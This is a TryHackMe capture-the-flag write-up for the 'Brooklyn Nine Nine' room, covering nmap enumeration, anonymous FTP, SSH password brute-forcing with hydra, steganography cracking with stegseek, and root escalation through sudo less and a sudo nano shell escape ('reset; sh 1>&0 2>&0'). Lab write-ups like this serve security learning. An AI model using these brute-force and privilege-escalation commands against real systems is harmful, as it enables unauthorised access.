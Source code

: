 ```yaml
---
title: "TryHackMe - Brooklyn Nine Nine"
author: Nasrallah
description: ""
date: 2022-04-27 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, hydra, bruteforce, steganography]
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello l33ts, I hope you are doing well. We are doing [Brooklyn Nine Nine](https://tryhackme.com/room/brooklynninenine) from [TryHackMe](https://tryhackme.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```Terminal
Nmap scan report for 10.10.168.172
Host is up (0.098s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.31.131
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

There are 3 open ports, FTP on port 21, SSH on port 22, and HTTP on port 80. Let's start with FTP.

### FTP

Let's login to the ftp server as anonymous. `ftp {target_IP}`.

![](/assets/img/tryhackme/brooklyn/1.png)

We found a text file, let's download it to our machine with the command `get {filename}`.

Now let's see what's on that file.

![](/assets/img/tryhackme/brooklyn/2.png)

It's a note from Amy to Jake saying that Jake's password is too weak.

### Web

Let's navigate to the webpage.

![](/assets/img/tryhackme/brooklyn/8.png)

We have a picture of Brooklyn nine-nine and some text, let's view the source code `ctrl+u`.

![](/assets/img/tryhackme/brooklyn/9.png)

We found an HTML comment talking about steganography

## **Foothold**

### Method 1

Let's use `hydra` to brute force Jake's password. `hydra -l jake -P /usr/share/wordlists/rockyou.txt 10.10.168.172 ssh -t 30`

![](/assets/img/tryhackme/brooklyn/3.png)

Great! We got Jake's password, let's login.

![](/assets/img/tryhackme/brooklyn/4.png)

And we're in.

### Method 2

First, let's download the picture to our machine using this command. `wget http://{target_ip}/brooklyn99.jpg}`.
Now let's use `steghide` to extract any hidden files on the picture.`steghide --extract -sf brooklyn99.jpg`.

![](/assets/img/tryhackme/brooklyn/10.png)

The file is protected with a password.

Let's use [stegseek](https://github.com/RickdeJager/stegseek) to get that password.

![](/assets/img/tryhackme/brooklyn/11.png)

Great! We got the password and extracted the data successfully. Let's see what we got.

![](/assets/img/tryhackme/brooklyn/12.png)

We got Holt's password. Let's use it to login.

![](/assets/img/tryhackme/brooklyn/13.png)

We're in. To privesc.

## **Privilege Escalation**

### Jake

Let's check our current privileges by running `sudo -l`.

![](/assets/img/tryhackme/brooklyn/5.png)

We can execute the command `less` as root, let's take a look at [GTFOBins](https://gtfobins.github.io/) for exploits.

![](/assets/img/tryhackme/brooklyn/6.png)


We found a way to get root access by executing some commands, so let's run them.

![](/assets/img/tryhackme/brooklyn/7.png)

Good! We are root now.

### Holt

Let's check our privileges with `sudo -l`.

![](/assets/img/tryhackme/brooklyn/14.png)

We can run nano as root, let's go to [GTFOBins](https://gtfobins.github.io/) and see if there is a way to exploit that.

![](/assets/img/tryhackme/brooklyn/15.png)

Good, we found a way.

 First, run the command `sudo nano`, now that you are in the nano editor, press `ctrl+R` + `ctrl+X`, after that, enter the command `reset; sh 1>&0 2>&0`, it should look like this.

![](/assets/img/tryhackme/brooklyn/16.png)

Now press Enter to execute the command.

>Note: you might need to press enter multiple time to get a clear shell.

![](/assets/img/tryhackme/brooklyn/17.png)

And just like that, we got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

## References

https://github.com/RickdeJager/stegseek

https://gtfobins.github.io/gtfobins/less/#sudo

https://gtfobins.github.io/gtfobins/nano/#sudo